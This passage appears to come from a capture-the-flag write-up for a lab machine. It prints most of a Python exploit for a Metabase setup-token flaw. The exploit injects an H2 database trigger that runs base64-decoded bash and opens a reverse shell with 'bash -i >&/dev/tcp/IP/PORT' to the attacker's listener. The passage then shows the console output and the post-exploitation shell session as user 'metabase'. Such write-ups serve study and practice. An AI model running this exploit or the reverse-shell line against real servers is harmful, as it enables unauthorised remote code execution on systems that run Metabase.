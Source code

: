 ```python
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(command=encoded_data),
                "advanced-options": False,
                "ssl": True
            },
            "name": "name",
            "engine": "h2"
        }
    }
    
    api_endpoint = f"{url}/api/setup/validate"
    headers = {'Content-Type': 'application/json'}
    response = requests.post(api_endpoint, headers=headers, json=payload)
    print("Exploit sent, look out for a reverse shell!")
        

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print(f"Usage: python3 {sys.argv[0]} <url> <your_ip> <your_port>")
    else:
        url = sys.argv[1].rstrip('/')
        ip = sys.argv[2]
        port = sys.argv[3]
        command = f"bash -i >&/dev/tcp/{ip}/{port} 0>&1"
        token = get_token(url)
        send_to_api(url, command, token)
```


A netcat listener was first started in order to catch the reverse shell.
Upon executing the script:


```bash
kali@kali:~$ python3 script.py http://data.analytical.htb <listener_IP> 443
Exploit sent, look out for a reverse shell!
```


A reverse shell was soon obtained as the user "metabase" on some machine.


```bash
41323e1037ed:/$ export TERM=xterm
export TERM=xterm
41323e1037ed:/$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
bash: python3: command not found
41323e1037ed:/$ whoami
whoami
metabase
41323e1037ed:/$ ls /home
ls /home
metabase
41323e1037ed:~$ sudo -l
sudo -l
bash: sudo: command not found
```
